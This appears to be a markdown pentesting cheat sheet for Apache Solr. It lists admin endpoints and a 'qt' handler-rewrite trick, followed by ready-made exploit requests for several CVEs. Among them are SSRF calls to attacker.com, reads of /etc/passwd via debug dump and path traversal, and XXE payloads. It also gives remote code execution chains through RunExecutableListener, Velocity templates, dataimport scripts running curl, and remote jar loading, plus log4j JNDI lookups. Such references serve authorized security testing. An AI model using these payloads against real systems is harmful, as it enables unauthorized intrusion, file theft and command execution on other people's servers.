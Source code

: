 # Interesting URLs

Admin interface:

```
/solr/admin
```

List cores:

```
/solr/admin/cores
```

Get metrics:

```
/solr/admin/metrics
```

Query all data in a core:

```
/solr/<core>/select?q=*
```

Get replication info for a core:

```
/solr/<core>/replication?command=indexversion
/solr/<core>/replication?command=details
```

Get supported resources for a core:

```
/solr/<core>/admin/mbeans
```
# Tricks

When using the method `select` to query a core, the parameters `qt` can be used to rewrite the request handler form `select` to any other. For example, `/solr/<core>/select?qt=/config` will be rewritten in the backend to `/solr/<core>/config`.

Sometimes, the rewrite affects everything that the parameter `qt` includes. For example, a request like `/solr/<core>/select?qt=/config?param=1337` would be rewritten to `/solr/<core>/config?param=1337`.

# Known vulnerabilities

These vulnerabilities can be combines with the previous tricks to bypass restrictions.

## SSRF

SSRFs can be used to access the internal admin console at `127.0.0.1:8983`.

### \[CVE-2021-27905\] Replication blind SSRF

```
/solr/<core>/replication/?command=fetchindex&masterUrl=http://attacker.com
```

### Shards

```
/solr/<core>/select?shards=http://attacker.com%23
/solr/<core>/select?shards=http://attacker.com%23&stream.body=<body>
/solr/<core>/select?shards=http://attacker.com&shards.qt=/test
```

### Debug dump SSRF

```
/solr/<core>/debug/dump?param=ContentStreams&stream.url=http://attacker.com
```

## Arbitrary File Read

### Debug dump Arbitrary File Read

```
/solr/<core>/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd
```
### \[CVE-2017-3163\] Replication Arbitrary File Read

```
/solr/<core>/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream`
```

## XXE
### Query XXE

```
/solr/<core>/select?fq={!xmlparser v='<!DOCTYPE a SYSTEM "https://attacker.com"><a></a>'}
/solr/<core>/select?fq={!xmlparser v='<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>'}
```

### \[CVE-2017-12629\] XXE

```
/solr/<core>/select?q=<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY % remote SYSTEM "https://attacker.com/">%remote;]><root/>&wt=xml&defType=xmlparser
```

## RCE
### RCE via debug dump 

1. 
```
POST /solr/<core>/config HTTP/1.1
Host: domain.com
Content-Type: application/json

{
  "set-property" : {
    "requestDispatcher.requestParsers.enableRemoteStreaming":true
  }
}
```
2. 
```
/solr/<core>/debug/dump?param=ContentStreams&&stream.url=jar:http://attacker.com/test.jar?!/Test.class
```

### \[CVE-2017-12629\] RCE via RunExecutableListener 

1. 
```
POST /solr/<core>/config HTTP/1.1
Host: domain.com
Content-Type: application/json
Content-Length: 213

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"nslookup",
    "dir":"/usr/bin/",
    "args":["attacker.com"]
  }
}
```
2. 
```
`/solr/core/update?commit=true`
```

### \[CVE-2019-0192\] RCE via deserialization

Further exploitation requires supplying a deserialization payload, but this is enough to find it:

```
POST /solr/<core>/config HTTP/1.1
Host: domain.com
Content-Type: application/json
Content-Length: 106

{
  "set-property": { 
    "jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://attacker.com/jmxrmi"
  }
}
```

### \[CVE-2019-17558\] RCE via Velocity template

1. 
```
POST /solr/<core>/config HTTP/1.1
Host: domain.com
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
2. 
```
`/solr/<core>/select?q=1&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end`
```

### RCE via dataimport

```
POST /solr/<core>/dataimport HTTP/1.1
Host: domain.com
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest

command=full-import&commit=true&core=<core>&name=dataimport&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22curl%20attacker.com%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E
```

### log4j

```
/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F%24%7B%3A-1337%7D%24%7B%3A-1337%7D.%24%7BhostName%7D.uri.attacker.com%2F%7D

/solr/admin/collections?action=%24%7Bjndi%3Aldap%3A%2F%2F%24%7B%3A-1337%7D%24%7B%3A-1337%7D.%24%7BhostName%7D.uri.attacker.com%2F%7D
```

# References

https://github.com/veracode-research/solr-injection/
https://github.com/search?q=repo%3Aprojectdiscovery%2Fnuclei-templates%20solr&type=code